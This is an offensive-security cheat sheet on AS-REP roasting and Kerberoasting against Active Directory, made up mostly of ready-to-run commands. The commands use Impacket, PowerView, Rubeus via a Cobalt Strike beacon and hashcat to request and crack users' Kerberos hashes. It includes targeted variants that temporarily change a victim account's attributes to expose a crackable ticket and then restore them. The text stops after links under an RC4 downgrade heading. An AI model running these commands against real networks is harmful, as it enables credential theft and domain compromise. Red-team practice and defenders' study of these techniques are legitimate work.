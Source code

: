 # Roasting




## ASREPRoasting

Show domain users with `DONT_REQ_PREAUTH` flag set:

```
PowerView3 > Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```



### Normal


#### GetNPUsers.py

- [https://vbscrub.com/2020/02/22/impackets-getnpusers-script-explained/](https://vbscrub.com/2020/02/22/impackets-getnpusers-script-explained/)

```
$ GetNPUsers.py megacorp.local/ -dc-ip 127.0.0.1 -no-pass -usersfile ~/ws/enum/names.txt -request -outputfile asrep.in | tee GetNPUsers.out
$ cat GetNPUsers.out | grep -v 'Client not found in Kerberos database'
$ hashcat -m 18200 -O -a 0 -w 4 --session=asrep -o asrep.out asrep.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```


#### ASREPRoast.ps1

- [https://github.com/HarmJ0y/ASREPRoast](https://github.com/HarmJ0y/ASREPRoast)

```
PS > Get-ASREPHash -Domain megacorp.local -UserName snovvcrash
```


#### Rubeus

```
beacon> execute-assembly ADSearch.exe --search "(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
beacon> execute-assembly Rubeus.exe asreproast /nowrap [/user:svc_mssql]
```



### Targeted

- [https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#asreproast](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#asreproast)

> "Given GenericWrite/GenericAll DACL rights over a target, we can modify most of the user's attributes. We can change a victim's userAccountControl to not require Kerberos preauthentication, grab the user's crackable AS-REP, and then change the setting back." (@harmj0y, [ref](https://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/))

```
PowerView3 > Get-DomainUser snovvcrash | ConvertFrom-UACValue
PowerView3 > Set-DomainObject -Identity snovvcrash -XOR @{useraccountcontrol=4194304} -Verbose
PowerView3 > Get-DomainUser snovvcrash | ConvertFrom-UACValue
ASREPRoast > Get-ASREPHash -Domain megacorp.local -UserName snovvcrash
PowerView3 > Set-DomainObject -Identity snovvcrash -XOR @{useraccountcontrol=4194304} -Verbose
PowerView3 > Get-DomainUser snovvcrash | ConvertFrom-UACValue
```




## Kerberoasting

- [http://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/](http://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/)
- [https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/](https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)
- [https://github.com/GhostPack/Rubeus#kerberoast](https://github.com/GhostPack/Rubeus#kerberoast)
- [https://docs.microsoft.com/ru-ru/archive/blogs/openspecification/windows-configurations-for-kerberos-supported-encryption-type](https://docs.microsoft.com/ru-ru/archive/blogs/openspecification/windows-configurations-for-kerberos-supported-encryption-type)
- [https://swarm.ptsecurity.com/kerberoasting-without-spns/](https://swarm.ptsecurity.com/kerberoasting-without-spns/)
- [https://habr.com/ru/post/650889/](https://habr.com/ru/post/650889/)
- [https://m365internals.com/2021/11/08/kerberoast-with-opsec/](https://m365internals.com/2021/11/08/kerberoast-with-opsec/)
- [https://github.com/Luct0r/KerberOPSEC](https://github.com/Luct0r/KerberOPSEC)
- [https://redcanary.com/blog/marshmallows-and-kerberoasting/](https://redcanary.com/blog/marshmallows-and-kerberoasting/)

{% embed url="https://twitter.com/_wald0/status/1361720293539139589" %}

Check `msDS-SupportedEncryptionTypes` attribute (if RC4 is enabled):

```
PowerView3 > Get-DomainUser -Identity snovvcrash -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```



### Normal


#### GetUserSPNs.py

```
$ GetUserSPNs.py megacorp.local/snovvcrash:'Passw0rd!' -dc-ip 127.0.0.1 -request -outputfile tgsrep.in
$ hashcat -m 13100 -O -a 0 -w 4 --session=tgsrep -o tgsrep.out tgsrep.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```


#### PowerView

- [https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1#L2777)

```
PowerView3 > Invoke-Kerberoast -OutputFormat Hashcat | fl
```


#### Rubeus

- [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

```
beacon> execute-assembly ADSearch.exe --search "(&(sAMAccountType=805306368)(servicePrincipalName=*))"
beacon> execute-assembly Rubeus.exe kerberoast /format:hashcat /nowrap [/usetgtdeleg] [/user:svc_mssql]
```



### Targeted

> "We can execute 'normal' Kerberoasting instead: given modification rights on a target, we can change the user's serviceprincipalname to any SPN we want (even something fake), Kerberoast the service ticket, and then repair the serviceprincipalname value." (@harmj0y, [ref](https://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/))

```
PowerView3 > Get-DomainUser snovvcrash | select serviceprincipalname
PowerView3 > Set-DomainObject -Identity snovvcrash -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
PowerView3 > $User = Get-DomainUser snovvcrash 
PowerView3 > $User | Get-DomainSPNTicket | fl
PowerView3 > $User | select serviceprincipalname
PowerView3 > Set-DomainObject -Identity snovvcrash -Clear serviceprincipalname
```



### Downgrading Encryption Type (RC4)

- [https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1)
- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled)
- [https://vbscrub.com/tag/kerberos/](https://vbscrub.com/tag/kerberos/)
